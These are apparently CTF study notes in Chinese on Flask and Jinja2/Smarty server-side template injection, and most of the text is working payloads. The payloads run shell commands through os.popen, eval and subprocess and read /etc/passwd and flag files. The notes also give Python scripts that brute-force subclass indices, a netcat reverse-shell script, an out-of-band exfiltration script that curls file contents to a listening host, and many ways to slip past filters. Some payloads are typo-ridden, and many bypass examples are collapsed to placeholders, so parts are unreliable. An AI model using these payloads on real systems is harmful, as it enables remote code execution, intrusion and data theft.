


#  1.Python venv

**定义**：相当于python的纯净虚拟环境

**创建虚拟环境**：python3 -m venv flask1

创建flask1文件夹，在该文件夹下就是python的虚拟环境

**使用**

方法1： #/opt/flask1/bin/python3 demo.py 使用特点的虚拟环境运行

方法2： cd flask1

​				scorce ./bin/acticate  

​				进入该虚拟环境

​				deactivate退出虚拟环境

# 2.Flask

## 1基本架构

```python
from flask import Flask
app=Flask(__name__)

@app.route('/dazhuang') #/127.0.0.1/dazhuang
def hello():
     return "hello dazhuang"
@app.route('/benben') #/127.0.0.1/benben
def hello():
     return "hello beneben"

if__name__=='__main__':
 	app.run('host=0.0.0.0') #可以让局域网内的都访问到 
```

## 2.变量规则

 

```python
from flask import Flask
app=Flask(__name__)

@app.route('/dazhuang/<name>') #/127.0.0.1:5000/dazhuang/xxx
def hello(name):
     return "hello %s" % name
@app.route('/benben/<int:postID>') #/127.0.0.1:5000/benben/123
def hello(postID):
     return "number %d" % postID
@app.route('/float/<float:floatpostID>') #/127.0.0.1:5000/float/123.1
def hello(floatpostID):
     return "float %f" % floatpostID

    
if__name__=='__main__':
 	app.run('host=0.0.0.0') #可以让局域网内的都访问到 
```

##  3.模板介绍

render_template：加载HTML文件。默认文件路径在templates目录下


render_template_string:用于渲染字符串，直接定义内容


# 3.Flask漏洞


这幅图的含义是通过这些指令去判断对方用的是什么模板，下面解释一下这幅图的意思:
绿色箭头是执行成功，红色箭头是执行失败。
首先是注入`${7\*7}`没有回显出49的情况，这种时候就是执行失败走红线，再次注入`{{7\*7}}`如果还是没有回显49就代表这里没有模板注入；如果注入`{{7＊7}}`回显了49代表执行成功，继续

往下走注入`{{7\*7}}`，如果执行成功回显7777777说明是jinja2模板，如果回显是49就说明是Twig模板。
然后回到最初注入$`{7＊7}`成功回显出49的情况，这种时候是执行成功走绿线，再次注入`a{*comment*}b`，如果执行成功回显ab，就说明是Smarty模板；如果没有回显出ab，就是执行失败走红线，注入$`{"z".join("ab")}`，如果执行成功回显出zab就说明是Mako模板。实际做题时也可以把指令都拿去测测看谁能对上。平时做题也可以多搜集不同模板对应的注入语句语法。

## 继承关系

```python
class A:pass
class B(A):pass
class C(B):pass
class D(B):pass
c=C()
print(c.__class__) #<class '__main__.C'>
print(c.__class__.__base__) #<class '__main__.B'>
print(c.__class__.base__.__base__) #<class '__main__.A'>
print(c.__class__.__mro__) #(<class '__main__.C'>, <class '__main__.B'>, <class '__main__.A'>, <class 'object'>)
print(c.__class__.__base__.__subclasses__()) #[<class '__main__.C'>, <class '__main__.D'>]
print(c.__class__.__base__.__subclasses__()[1])#<class '__main__.D'>
```

## 魔术方法

_\_class__:查看当前类型的所属对象

_\_base__:查看当前对象的父类

_\_mro__::查看当前对象的所有父类

_\_subclassses__()：查看当前父类下的所有子类

_\_subclassses__()[1]：查看当前父类下的第二个子类，0表示第一个

_\_init__:查看是否重载，重载是指程序在运行时就已经加载好了这个模块到内存中，如果出现wrapper字眼，说明没有重载

_\_globals__:返回当前对象的全部全局变量，查看可以使用的函数

_\_builtins__:提供对Python的所有内置标识符的直接访问

eval()计算字符串表达式的值

popen()：执行一个shell以运行命令来开启一个进程

```python
"".__class__.__base__.__subclasses__()[117].__init__.__globals__['__builtins__']['eval']("__import__('os').popen('ls').read()")
```

117是os._wrap_close

# 4.SSTI常用注入模板利用

## 文件读取

### 1._frozen_importlib_external.FileLoader

文件读取类名：_frozen_importlib_external.FileLoader

查找子类脚本

```python
import requests
url=input('请输入URL:')
for i in range(500):
    data={"name":"{{().__class__.__base__.__subclasses__()["+str(i)+"]}}"}
    try:
        response = requests.post(url,data=data)
        #print(response)
        if(response.status_code==200):
            if'_frozen_importlib_external.FileLoader' in str(response.content):
                print(i)
    except:
        pass

```

找到_frozen_importlib_external.FileLoader类名的位置

```php
{{"".__class__.__base__.__subclasses__()[79]["get_data"](0,"/etc/passwd")}}

```

### 2.eval

查找eval脚本

```python
import requests
url=input('请输入URL:')
for i in range(500):
    data={"name":"{{().__class__.__base__.__subclasses__()["+str(i)+"].__init__.__globals__['__builtins__']}}"}
    try:
        response = requests.post(url,data=data)
        #print(response)
        if(response.status_code==200):
            if'eval' in str(response.content):
                print(i)
    except:
        pass
```

```php
{{"".__class__.__base__.__subclasses__()[473].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("cat /flag").read()')}}
```


### 3.os

#### 通过config，调用os

```php
{{config.__class__.__init__.__globals__['os'].popen('whoami').read()}}
```

#### 通过url_for,调用os

```php
{{url_for.__globals__.os.popen('cat /flag').read()}}
```

#### 通过get_flashed_messages

返回之前在Flask中通过 flash() 传入的闪现信息列表。把字符串对象表示的消息加入到一个消息队列中，然后通过调用 get_flashed_messages() 方法取出(闪现信息只能取出一次，取出后闪现信息会被清空)。

```php
{{get_flashed_messages.__globals__.os.popen('cat /flag').read()}}
```

#### 在已经加载os模块的子类中直接调用os模块

```php
{{"".__class__.__bases__[0].__subclasses__()[199].__init__.__globals__['os'].popen('cat /flag').read()}}
```

```
{{“”.__class__.__base__.__subclasses__()[117].__init__.__globals__[‘builtins’][‘eval’]("__import__.(‘os’).popen(‘ls’).read()")}} 
```

查找os模块脚本

```python
import requests
url=input('请输入URL:')
for i in range(500):
    data={"name":"{{().__class__.__base__.__subclasses__()["+str(i)+"].__init__.__globals__}}"}
    try:
        response = requests.post(url,data=data)
        #print(response)
        if(response.status_code==200):
            if'os.py' in str(response.content):
                print(i)
    except:
        pass
```


#### 可以加载第三方库，使用load_module加载os

_frozen_importlib.BuiltinImporter查找脚本

```python
import requests
url=input('请输入URL:')
for i in range(500):
    data={"name":"{{().__class__.__base__.__subclasses__()["+str(i)+"]}}"}
    try:
        response = requests.post(url,data=data)
        #print(response)
        if(response.status_code==200):
            if'_frozen_importlib.BuiltinImporter' in str(response.content):
                print(i)
    except:
        pass


```

```php
{{[].__class__.__base__.__subclasses__()[69]["load_module"]("os")["popen"]("cat /flag").read()}}
```

#### subprocess.Popen模块

```python
import requests
url=input('请输入URL:')
for i in range(500):
    data={"name":"{{().__class__.__base__.__subclasses__()["+str(i)+"]}}"}
    try:
        response = requests.post(url,data=data)
        #print(response)
        if(response.status_code==200):
            if'subprocess.Popen' in str(response.content):
                print(i)
    except:
        pass


```

```php
{{[].__class__.__base__.__subclasses__()[200]('ls/',shell=True,stdout=-1).communicate()[0].strip()}}
```

#### importlib类执行命令

importlib类执行命令相当于自己导入，可以加载第三方库，使用load_module加载os

```
{{[].__class__.__base__.__subclasses__()[69].["load_module"]("os")[“popen”](‘ls’).read()}}
```

#### linecache函数执行命令

linecache函数可用于读取任意一个文件的某一行，而这个函数中也引入了os 模块，所以我们也可以利用这个 linecache 函数去执行命令。

```
{{[].__class__.__base__.__subclasses__()[19].__init__.__globals__.linecache.os.popen("ls").read()}}
```


## 4.lipsum 

```
?name={{(lipsum.__globals__).os.popen(request.args.ocean).read()}}&ocean =cat /flag
```

使用flask里的lipsum方法来执行命令：flask里的lipsum方法,可以用于得到__builtins__，而且lipsum.__globals__含有os模块

# 5.大括号过滤

> `{{}}`被过略,尝试``

判断语句是否能正确执行

```php
benben
```

```php
benben
```

有回显说明<font color=red>**"".\_\_class\_\_**</font>有内容

```php
benben
```

查询脚本

```python
import requests
url=input('请输入URL:')
for i in range(500):
    data={"code":'benben'}
    try:
        response = requests.post(url,data=data)
        #print(response)
        if(response.status_code==200):
            if 'benben' in str(response.content):
                print(i)
    except:
        pass

```

# 6.无回显SSTI

## 1.反弹shell

192.168.204.149 监听7777端口

nc -lvp 7777

```python
import requests
url=input('请输入URL:')
for i in range(500):
     try:
    data={"name":"{{().__class__.__base__.__subclasses__()["+str(i)+"].__init__.__globals__['popen']('netcat 192.168.1.161 7777 -e /bin/bash').read()}}"}
        response = requests.post(url,data=data)
    except:
        pass
```

## 2.带外注入

kali开启python监听

python3 -m http.server 80

```python
import requests
url=input('请输入URL:')
for i in range(500):
    try:
        data={"code":"{{().__class__.__base__.__subclasses__()["+str(i)+"].__init__.__globals__['popen']('curl http://192.168.204.149/`cat /flag`').read()}}"}
        response = requests.post(url,data=data)
    except:
        pass
```

# 7.绕过中括号过滤

使用getitem函数  

```
__getitem__()=[]
```

# 8.绕过单双引号过滤&&args被过滤

## 1.request.args.cmd配合get提交



## 2.request.form.cmd配合from提交


## 3.request.cookies.cmd配合cookie


## 4.也可以使用values获取所有参数

request.values.cmd

## 5.字符串拼接绕过

```
(config.__str__()[2])='o'
(config.__str__()[42])='s'

?name={{url_for.__globals__[(config.__str__()[2])%2B(config.__str__()[42])]}}
等于
?name={{url_for.__globals__['os']}}
```

## 6.过滤器拼接

```
(()|select|string)[24]
```


# 9.过滤器绕过下划线过滤

## 1.request 绕过

attr()函数

原paylload

```
{{''.__class__.__base__.__subclasses__()[117].__init__.__globals__["popen"]('cat /flag').read()}}
```



```
http://192.168.204.149:18080/flasklab/level/6?class=__class__&base=__base__&sub=__subclasses__&geti=__getitem__&init=__init__&globals=__globals__
```

```
code={{()|attr(request.args.class)|attr(request.args.base)|attr(request.args.sub)()|attr(request.args.geti)(117)|attr(request.args.init)|attr(request.args.globals)|attr(request.args.geti)('popen')('cat /flag')|attr('read')()}}
```

## 2.编码绕过

### 1.Unicode编码

 Unicode编码的python脚本如下：

```
class_name = "cat /flag"

unicode_class_name = ''.join(['\\u{:04x}'.format(ord(char)) for char in class_name])

print(unicode_class_name)
```

payload示例：

```
url={%print(()|attr(%22\u005f\u005f\u0063\u006c\u0061\u0073\u0073\u005f\u005f%22))%}
```

```
（Unicode编码，这条payload等效于{{“”.__class__}}） 
```


### 2.utf-16

```
{{().__class__.__base__.__subclasses__()[199].__init__.__globals__}}
```


```
{{()|attr("\u005F\u005F\u0063\u006C\u0061\u0073\u0073\u005F\u005F")|attr("\u005F\u005F\u0062\u0061\u0073\u0065\u005F\u005F")|attr("\u005F\u005F\u0073\u0075\u0062\u0063\u006C\u0061\u0073\u0073\u0065\u0073\u005F\u005F")()|attr("\u005F\u005F\u0067\u0065\u0074\u0069\u0074\u0065\u006D\u005F\u005F")(199)|attr("\u005F\u005F\u0069\u006E\u0069\u0074\u005F\u005F")|attr("\u005F\u005F\u0067\u006C\u006F\u0062\u0061\u006C\u0073\u005F\u005F")}}
```

### 十六进制编码

```
{{()[“\x5f\x5fclass\x5f\x5f”][“\x5f\x5finit\x5f\x5f”][“\x5f\x5fglobals\x5f\x5f”][“os”].popen(“ls”).read()}}
```

这条payload等效于

```
{{“”.__class__.__init__.globals__.os.popen(“ls”).read()}}
```


### base64编码绕过

"__class__"==("X19jbGFzc19f").decode("base64")

### 格式化字符串

```
{{()|attr("%c%cclass%c%c"%(95,95,95,95))|attr("%c%cbase%c%c"%(95,95,95,95))|attr("%c%csubclasses%c%c"%(95,95,95,95))()|attr("%c%cgetitem%c%c"%(95,95,95,95))(117)|attr("%c%cinit%c%c"%(95,95,95,95))|attr("%c%cglobals%c%c"%(95,95,95,95))|attr("%c%cgetitem%c%c"%(95,95,95,95))(‘popen’)(‘cat /etc/passwd’)|attr(‘read’)()}}
```

%c %(95) 即下划线(如果是在 hackbar 注入，需要将%编码为%25。在 URL中%是一个特殊字符，用于表示后面紧跟着两个十六进制数字的转义序列，如果想在 URL中包含%字符本身，需要对它进行额外的编码，将%编码成%25)

%c是占位符，后面95是_的ascii码

# 10.点"."过滤

## 中括号代替

```
{{''.__class__.__base__.__subclasses__()[117].__init__.__globals__["popen"]('cat /flag').read()}}
```

```
{{()['__class__']['__base__']['__subclasses__']()[117]['__init__']['__globals__']['popen']('cat /etc/passwd')['read']()}}
```


## attr代替

```
{{()|attr(‘__class__’)|attr(‘__base__’)|attr(‘__subclasses__’)()|attr(‘__getitem__’)(199)|attr(‘__init__’)|attr(‘__globals__’)|attr(‘__getitem__’)(‘os')|attr(‘popen’)(‘ls’)|attr(‘read’)()}}
```


# 12.smarty SSTI

控制XFF进行命令执行（这是要在前端有IP相关回显的情况）

payload:

```
X-Forwarded-For: {{system("ls")}}
```

标签

**{php}**

```
{php}phpinfo();{/php}
```

Smarty已经废弃{php}标签，强烈建议不要使用。在Smarty 3.1，{php}仅在SmartyBC中可用。

**{literal} 标签**

**{literal}可以让一个模板区域的字符原样输出。** 这经常用于保护页面上的Javascript或css样式表，避免因为Smarty的定界符而错被解析。

`{if}{/if}`

```
{if phpinfo()}{/if}

```

# 13.绕过关键字过滤

​	

```
以__class__为例
```

## 1.字符编码

#### 编码绕过（就是上文中的编码绕过）

## 2.简单拼接

```
'__c'+'lass__'
```

小括号大括号中括号都适用

## 3.使用Jinjia2中的‘~’进行拼接：

```
{{a~b}}
```

## 4.使用过滤器reverse反转、replace替换、join拼接

### 1.reverse反转

```
{{a}}
```

### replace替换

```
{{()[‘__class__’]}}等价于{{()[a]}}
```

### join拼接

```
{{()[a]}}
```

```
(%set a=[‘__cla’,’ss__’]|join%}{{()[a]}}
```


## 使用python的char（）

```

{{""[chr(95)%2bchr(95)%2bchr(99)%2bchr(108)%2bchr(97)%2bchr(115)%2bchr(115)%2bchr(95)%2bchr(95)]}}
```

# 14.绕过数字过滤

首先介绍length过滤器，length过滤器通常用于获取数据结构（比如列表、字典或字符串）的长度

```
{{a}}  #10

{{a}}  #30

{{a}}   #117

10个a*12个a-3个a=117个a
```

如果数字被过滤可以这样绕过：

```
{{“”.__class__.__bases__.__subclasses__()[a].__init__.__ globals__[‘os’].popen(“ls”).read()}}
```

# 15.绕过符号过滤

利用flask内置函数和对象获取符号

```
{{a}} #获取下划线

 {{a}} #获取空格

{{a}}  #获取百分号

{{a}}
```

# 16.SSTI混合过滤绕过

## 实例解析1——WAF过滤’，”，+,request,[]

Payload原型：

```
{{().__class__.__base__}}
```

绕过：

```
{% set a=dict(__class__=1)|join%)%}{{()|attr(a)|attr(b)}}
```

join会把字典（dict）里的键名都拼接起来，至于键的值是什么不重要，可以是__class__=1也可以是__class__=111

最终payload示例：

```
{% set a=dict(__class__=1)|join%)%}









{





{%set i=(dict(cat=1)|join,kg,dict(flag=2)|join)|join%)



{{()|attr(a)|attr(b)|attr(c)()|attr(d)(117)|attr(e)|attr(f)|attr(d)(g)(i)|attr(r)()}}

```

## 实例解析2——WAF过滤’，”,_，0-9,\,.,[],空格

注入`{{lipsum|string|list}}`，如果回显的列表里第9位是空格，第18位是下划线，就可以这样获取下划线：

```
{{a}}
```

由于中括号被过滤：

```
{{a}}
```

又由于下划线被过滤，可以用'pop’代替 getitem

```
{{a}}
```

这个payload是绕过过滤得到的下划线‘_’

Payload原型

```
{{lipsum|attr("__globals__")|attr(“__getitem__”)("os")|attr("popen")("cat flag")|attr("read")()}}
```


绕过：

```






 #（获取下划线）

  #（获取空格）











{{flag}}
```